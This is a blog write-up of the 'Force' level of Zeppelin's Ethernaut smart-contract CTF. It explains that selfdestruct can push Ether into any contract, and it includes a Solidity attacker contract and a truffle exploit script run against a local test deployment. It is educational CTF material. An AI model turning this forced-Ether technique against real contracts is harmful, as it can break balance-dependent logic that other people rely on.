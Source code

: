 Title: Solving Zeppelin's Ethernaut CTF - Force
Date: 2018-11-23 23:30
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-force
Summary: Post #8 of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. All contracts have a hidden self-destruct button. Did you known that? Read on, and see it for yourself.

## Introduction
In [Force](https://ethernaut.zeppelin.solutions/level/0x24d661beb31b85a7d775272d7841f80e662c283b), we need to make the balance of the Force contract greater than zero. In previous challenges we learned how to send transactions to contracts both from other contracts or using the `web3` library. Along these transactions, we would be allowed to send ether as long as the transferee had some kind of `payable` function (be it the constructor, a custom one and/or the fallback).

However, the Force contract does not have any code. I mean, **none**. How are we supposed to deposit Ether into it ? Well, luckily, we have an ace under the sleeve.

## OK contract, selfdestruct
I don't know if you were aware of this, but there's a way to "remove" code from the blockchain. Just code, external accounts cannot be removed from the state.

Every Ethereum smart contract has a hidden `selfdestruct` button, which can pressed at any time to blow the whole thing up. With one little addition: all Ether deposited in the destroyed contract can be automatically sent to whichever other account the contract (i.e. the developer) designates. This happens no matter what.

In other words, any contract can receive Ether at any time, regardless of the logic that it may implement in its code (if it has any *:wink:*). This is the reason why it is considered dangerous to bound the logic of sensible actions to the amount of Ether in balance.

For more details about `selfdestruct`, as always, refer to [the Solidity docs on selfdestruct](https://solidity.readthedocs.io/en/v0.4.25/introduction-to-smart-contracts.html#self-destruct).

We've now found a way through which a contract could send Ether to the codeless Force contract, thus incrementing its balance. So let's do it!.

## Attacking Force
To begin with, code an attacker contract to be sacrificed. Something like the following will do the trick. In the constructor we're just setting the victim address, while in the `destruct` function we just `selfdestruct` the contract, targetting the victim.

~~~solidity
pragma solidity ^0.4.18;

contract ForceAttack {
    address forceAddress;

    function ForceAttack(address _addr) public payable {
        forceAddress = _addr;
    }

    function destruct() public {
        // Execute selfdestruct
        // sending all remaining Ether to forceAddress
        selfdestruct(forceAddress);
    }
}
~~~

Let's see now how to interact with `ForceAttack` and trigger the attack through `web3`. As always, create a new file under the `exploits` folder called `force.exploit.js` and keep the same exploit structure we've been using since the first challenge.

~~~javascript
const ForceContract = artifacts.require('Force')
const ForceAttackContract = artifacts.require('ForceAttack')
const assert = require('assert')

async function execute(callback) {
    // Get a reference to the deployed Force contract
    const contractForce = await ForceContract.deployed()

    // Deploy new contract with initial balance of 5 ETH
    const INITIAL_BALANCE = 5
    const attackerContract = await ForceAttackContract.new(contractForce.address, {
        value: web3.toWei(INITIAL_BALANCE, 'ether')
    })
    
    // Initial balance of Force contract should be 0
    let balance = await web3.eth.getBalance(contractForce.address)
    assert.equal(balance, 0)
    console.log(`Initial balance: ${balance} ETH`)
    
    await attackerContract.destruct()
    
    // Once the transaction is done, final balance of Force contract must have changed
    balance = web3.fromWei(await web3.eth.getBalance(contractForce.address), 'ether')
    assert.equal(balance, INITIAL_BALANCE)
    console.log(`Final balance: ${balance} ETH`)

    callback()
}

module.exports = execute
~~~

I've added some comments to the exploit, though it is as self-explanatory as can be:

- Deploy the attacker contract
- Call `destruct` function
- Pass challenge :)

The rest are just utilities to validate and log each step of the attack.

So that's it! Make sure that you've deployed the Force contract to `ganache` before running the exploit with `truffle exec exploits/force.exploit.js`.

Even though the challenge may have been a little basic, it taught us a new feature of smart contracts that we'd never seen before, which might come in handy at some point.

You can find the whole [exploit](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/force.exploit.js) and the [attacker contract](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/ForceAttack.sol) at the GitHub repo.

For the next post, be ready to do some Ethereum lockpicking, because we are gonna have to unlock [Vault](https://ethernaut.zeppelin.solutions/level/0xe77b0bea3f019b1df2c9663c823a2ae65afb6a5f). 
